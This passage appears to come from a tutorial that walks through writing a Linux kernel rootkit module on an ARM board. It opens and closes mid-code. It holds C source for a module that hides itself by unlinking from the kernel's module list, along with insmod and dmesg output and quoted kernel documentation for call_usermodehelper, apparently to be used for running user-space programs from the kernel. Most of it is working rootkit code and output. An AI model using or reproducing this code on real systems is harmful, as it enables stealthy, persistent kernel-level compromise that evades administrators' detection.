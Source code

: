 ```c
  ret = mod_timer(&my_timer, jiffies + msecs_to_jiffies(1000));

  if (ret)
    printk(KERN_WARNING "Error in mod_timer\n");

  printk(KERN_INFO "rootkit_mod hidind itself.\n");

  mutex_lock(&module_mutex);
  list_del(&mod->list);
  mutex_unlock(&module_mutex);

  printk(KERN_INFO "rootkit_mod done.\n");
  return 0;
}
module_init(rootkit_init);

static void __exit rootkit_exit(void)
{
  printk(KERN_INFO "rootkit_mod unloaded.\n");
}
module_exit(rootkit_exit);
```

Ok, we have the timer code separated, at this moment the timer only will print *rootkit_callback* in timer callback.
Time to checkout the timer code. If the timer blows up we will be sure that we have made a dummy mistake in configuration, or something like that.


```bash
root@a20-olimex:~$ insmod rootkitmod_time.ko
```

And... No explosion? Lets check the dmesg

```bash
root@a20-olimex:~$ dmesg
...
[   59.812976] my_timer_callback (-24020).
```

Ok, so from that it follows that the timer has been configured correctly, when it shouldn't have. So what next can we check? Let's read a little bit about the **call_usermodehelper** function (by the way we should have done it before we use it, but this would be too easy).

```c kmod.c /kernel/kmod.c
/**
 * call_usermodehelper() - prepare and start a usermode application
 * @path: path to usermode executable
 * @argv: arg vector for process
 * @envp: environment for process
 * @wait: wait for the application to finish and return status.
 *        when UMH_NO_WAIT don't wait at all, but you get no useful error back
 *        when the program couldn't be exec'ed. This makes it safe to call
 *        from interrupt context.
 *
 * This function is the equivalent to use call_usermodehelper_setup() and
 * call_usermodehelper_exec().
 */
int call_usermodehelper(char *path, char **argv, char **envp, int wait)
{
    struct subprocess_info *info;
    gfp_t gfp_mask = (wait == UMH_NO_WAIT) ? GFP_ATOMIC : GFP_KERNEL;

    info = call_usermodehelper_setup(path, argv, envp, gfp_mask,
					 NULL, NULL, NULL);
    if (info == NULL)
```